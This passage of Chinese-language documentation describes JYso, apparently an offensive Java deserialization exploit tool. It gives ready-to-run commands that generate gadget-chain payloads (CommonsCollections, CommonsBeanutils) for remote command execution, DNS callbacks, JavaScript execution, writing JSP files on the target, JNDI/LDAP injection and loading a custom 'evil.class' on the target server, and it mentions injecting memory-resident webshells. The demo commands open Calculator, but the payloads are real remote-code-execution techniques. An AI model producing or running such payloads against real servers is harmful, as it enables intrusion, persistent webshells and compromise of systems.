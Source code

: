 这里需要注意的是，使用 PB 执行系统命令、WF 写入文件的内容、SE 执行命令时，为了防止传参错误，需要<font color="purple">对传入的命令使用
base64 编码</font>。

除了上面的利用，项目也通过 ScriptEngineManager 执行 JS 的方式支持了 `EX-` 的写法，也就是说针对 ChainedTransformer 利用方式也可以打入内存马或回显。

**命令执行示例**：

```shell
java -jar JYso-[version].jar -yso 1 -g CommonsCollections1 -p PB-lin-b3BlbiAtYSBDYWxjdWxhdG9yLmFwcA==
```

**DNSLOG示例**：

```shell
java -jar JYso-[version].jar -yso 1 -g CommonsCollections1 -p 'DL-xxx.org'
```

**脚本引擎解析 JS 代码示例**：

```shell
java -jar JYso-[version].jar -yso 1 -g CommonsCollections1 -p 'SE-b3BlbiAtYSBDYWxjdWxhdG9yLmFwcA=='
```

**文件写入示例**：

```shell
java -jar JYso-[version].jar -yso 1 -g CommonsCollections1 -p 'WF-/tmp/1.jsp#PCVAcGFnZSBwYWdlR.....'
```

**触发 JNDI 查询注入示例**：

```shell
java -jar JYso-[version].jar -yso 1 -g CommonsCollections1 -p 'JD-ldap://127.0.0.1:1389/Basic/Command/Base64/b3BlbiAtYSBDYWxjdWxhdG9yLmFwcA=='
```

**普通命令执行示例**：

```shell
java -jar JYso-[version].jar -yso 1 -g CommonsCollections1 -p 'open -a Calculator.app'
```

### 2.4.1 任意自定义代码

如果你不想使用本项目中提供的恶意逻辑，也不想执行命令，可以通过自定义代码的形式，自定义代码将会在目标服务器通过 ClassLoader

[//]: # (进行加载并实例化。命令使用 `LF-` 开头，后面跟指定自定义类字节码文件的绝对路径，程序会尝试自动缩减类字节码的大小。)

示例：

```shell
java -jar JYso-[version].jar -yso 1 -g CommonsCollections3 -p LF-/tmp/evil.class
```

### 2.4.2 普通命令执行

最后是普通的执行命令，直接输入待执行的命令即可。

**普通命令执行示例**：

```shell
java -jar JYso-[version].jar -yso 1 -g CommonsBeanutils2 -p 'open -a Calculator.app'
```
